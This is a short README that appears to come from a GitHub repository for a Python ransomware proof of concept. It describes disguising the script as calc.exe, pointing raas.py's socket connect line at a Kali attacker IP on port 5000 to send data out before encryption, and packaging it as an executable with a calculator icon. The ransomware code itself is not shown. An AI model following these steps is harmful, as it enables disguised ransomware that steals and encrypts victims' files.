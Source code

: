# NextGen-Ransomeware-Poc-Python [RaaS]
A simple python script pretending calc.exe to trigger user execute a ransomeware and sent data before encrypt.
Deployed on Windows environment.

## Academic Purpose Only ##

# Flow #
- Execute socket_server.py on your Kali
- Modify raas.py lines 32 client_socket.connect(("<Kali IP>", 5000))
- Run autopytoexe convertor the program as a exe
- Replace Icon to calculator.ico
- Output as a exectuable file
